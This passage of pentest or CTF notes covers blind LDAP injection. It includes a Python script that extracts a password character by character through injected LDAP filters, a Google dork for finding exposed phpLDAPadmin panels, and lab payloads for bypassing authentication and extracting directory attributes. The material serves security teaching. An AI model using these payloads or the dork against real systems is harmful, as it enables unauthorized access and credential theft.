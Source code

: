 
### **Special Blind LDAP Injection (without "*")**

Copy

```python

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

## Google Dorks



```
intitle:"phpLDAPadmin" inurl:cmd.php
```

## VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/z1l9BmnrxVE" title="Curso Bug Bounty  |  LDAP Data Exfiltration &amp; Blind Exploitation- Capitulo 4-2" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### VID LAB

For this vid lab, we follow the same thing as the previous section, if we use the same payload as before, we get:

![](images/Pasted%20image%2020241011174044.png)

So, seems like the server is vulnerable to BLIND LDAP injection, if we pass in the following payload, we get what we saw in the previous image, let's try to create another payload:

				`username=admin&password=*` -----> Base payload
			`username=admin)(|(description=*&password=invalid) -----> Data 
			exfiltration payload`

If we pass this to our proxy, we get the following:

![](images/Pasted%20image%2020241011174442.png)
![](images/Pasted%20image%2020241011174518.png)

We can even create our own tools for the enumeration and exploitation of this vulnerability.

